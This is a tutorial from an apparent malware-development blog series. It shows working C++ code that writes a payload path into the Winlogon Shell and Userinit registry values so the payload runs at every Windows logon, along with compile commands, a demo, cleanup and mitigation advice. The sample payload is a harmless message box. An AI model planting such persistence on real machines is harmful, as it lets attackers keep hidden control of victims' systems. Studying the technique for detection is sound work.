



## 48. malware development: persistence - part 7. Winlogon. Simple C++ example.

{width="80%"}    

Today I'll wrote about the result of self-researching another persistence trick: Winlogon registry keys.    

### winlogon

The Winlogon process is responsible for user logon and logoff, startup and shutdown and locking the screen. Authors of malware could alter the registry entries that the Winlogon process uses to achieve persistence.    

The following registry keys must be modified in order to implement this persistence technique:

- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`     
- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`     

However, local administrator privileges are required to implement this technique.

### practical example

First of all create our malicious application (`hack.cpp`):

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE 
hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

As you can see, it's just a pop-up "meow" message as usually.    

Let's go to compile it:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

The generated `hack.exe` needs to be dropped into the victim's machine.

Changes to the `Shell` registry key that include an malicious app will result in the execution of both `explorer.exe` and `hack.exe` during Windows logon.

This can be done immediately using the script below:

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  // const char* sh = "explorer.exe,
  // Z:\\2022-06-12-malware-pers-7\\hack.exe";
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, 
    (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Also, similar for `Userinit`. If this registry key include an malicious app will result in the execution of both `userinit.exe` and `hack.exe` during Windows logon:

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // userinit
  const char* ui = "C:\\Windows\\System32\\userinit.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Userinit", 0, 
    REG_SZ, (unsigned char*)ui, strlen(ui));
    RegCloseKey(hkey);
  }

  return 0;
}
```

So, compile the program responsible for persistence:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

### demo

And see everything in action. First of all, check registry keys:    

```powershell
req query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" \
/s
```

{width="80%"}    

Copy malicious app to `C:\Windows\System32\`. And run:

```powershell
.\pers.exe
```

{width="80%"}    

Then, logout and login:

{width="80%"}    

According to the logic of the our malicious program, "meow-meow" popped up:

{width="80%"}    

{width="80%"}    

Let's check process properties via Process Hacker 2:    

{width="80%"}    

Then, cleanup:

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" \ 
/v "Shell" /t REG_SZ /d "explorer.exe" /f
```

{width="80%"}    

What about another key `Userinit.exe`? Let's check. Run:

```powershell
.\pers.exe
```

{width="80%"}    

Logout and login:

{width="80%"}    

{width="80%"}    

Then, for the purity of experiment, check properties of `hack.exe` in Process Hacker 2:

{width="80%"}    

As you can see, parent process is `winlogon.exe`.

Cleanup:

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" \
/v "Userinit" /t REG_SZ /d \
"C:\Windows\System32\userinit.exe" /f
```

{width="80%"}    

As you can see in both cases, the malware will be executed during Windows authentication.    

But there are interesting caveat. For example if we update registry key as following logic:    

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" /v 
    // "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, 
    REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

That is, our malware is located along the path: `Z:\...\hack.exe` instead of `C:\Windows\System32\hack.exe`.    

Run:

```powershell
.\pers.exe 
req query "HKLM\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" /s
```

{width="80%"}    

And relogin:

{width="80%"}    

{width="80%"}    

Checking properties of `hack.exe`:

{width="80%"}    

As you can see, parent process is `Non-existent process`. Parent will show as `Non-existent process` since `userinit.exe` terminates itself.    

There is one more note. Also, the `Notify` registry key is commonly present in older operating systems (prior to `Windows 7`) and it points to a notification package DLL file that manages Winlogon events. If you replace the DLL entries under this registry key with any other DLL, Windows will execute it during logon.     

What about mitigations? Limit user account privileges so that only authorized administrators can modify the Winlogon helper. Tools such as [Sysinternals Autoruns](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns) may also be used to detect system modifications that may be attempts at persistence, such as the listing of current Winlogon helper values.     

This persistence trick is used by [Turla](https://attack.mitre.org/groups/G0010/) group and software like [Gazer](https://attack.mitre.org/software/S0168/) and [Bazaar](https://attack.mitre.org/software/S0534/) in the wild.    

[MITRE ATT&CK - Boot or Logon Autostart Execution: Winlogon Helper DLL](https://attack.mitre.org/techniques/T1547/004/)    
[Turla](https://attack.mitre.org/groups/G0010/)    
[Gazer backdoor](https://attack.mitre.org/software/S0168/)    
[Bazaar](https://attack.mitre.org/software/S0534/)    
[source code on Github](https://github.com/cocomelonc/2022-06-12-malware-pers-7)    
